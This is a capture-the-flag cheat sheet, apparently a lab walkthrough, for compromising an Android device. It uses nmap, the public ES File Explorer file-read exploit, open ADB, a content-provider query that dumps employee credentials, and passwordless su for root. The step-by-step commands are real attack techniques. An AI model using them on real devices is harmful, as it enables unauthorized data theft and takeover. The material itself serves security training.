 # Cheat Sheet of Android Attack Path
1. Run an nmap scan on 10.11.12.39 (Android IP). 
    - `nmap -p -sC -sV 10.11.12.39 -Pn`
    - A user will notice: ES File Explorer (59777), ADB(5555), SSH (22)
    - ES File Explorer has an active exploit 
2. To get the active exploit can use the `searchsploit` command:
    - `searchsploit ES File Explorer`
    - You will find the exploit: ES File Explorer 4.1.9.7.4 Arbitrary File Read with the path android/remote/50070.py
3. To download the exploit run the following command:
    - `searchsploit -m android/remote/50070.py`
    - The exploit will be in the Kali Downloads Folder
4. To run the exploit you must use the following command: `python3 50070.py [OPTION] [Device IP]`
    - Options include : `listFiles`, `listPics`, `listVideos`, `listAudios`, `listApps`,   `listAppsSystem`, `listAppsPhone`, `listAppsSdcard`, `listAppsAll`, `getFile`, `getDeviceInfo`
    - Upon going through the options of the exploit `listApps` and `listPics` will give the user most insight into the Android device to retrieve flags.
5. Executing the exploit with the `listPic` option will reveal that there are images stored in /storage/emulated/0/DCIM
    - A user can reveal the contents of the images using the command: `python3 50070.py getFile [Device IP] '/path..to..the..image'`
    - This generates an out.dat file
6. The user must then convert the contents of the out.dat files to a .jpg extension using the command:
    - `mv out.dat [name].jpg`
    - Navigate to the Downloads folder and open the images to see if you can find the user.txt flag.
7. Executing the exploit with the `listApps` option will reveal that there is a Carefree Enterprise application installed on the Android device
    - The application package name is com.example.carefreeenterprise
8. Once the packagename is retrieved, the user can connect to the device via ADB to find information about the package using the command: 
    - `adb connect [Device IP]:5555`
9. Once connected, the user can check for any databases that have sensitive information using the command: 
    - `adb shell dumpsys package provider | grep carefree`
    - The applications content provider URI is shown with its full path
10. Now that the user has the full path to the database of CarefreeEnterprises application, they can query the database to see all content
    - `adb shell content query --uri content://com.example.carefreeenterprise/.employeeProvider`
11. User has now obtained all login information for Ubuntu (Arnold's Work Machine)
12. Now that user has access to all employee credentials and a `user.txt` flag, you need to obtain root privilages to obtain the `root.txt` flag.
13. To obtain shell on an android device, a user simply has to type command: 
    - `adb shell`
14. User can obtain root privileges without a password using command: 
    - `su`
    - A user can now find `root.txt` flag within data/root.txt.
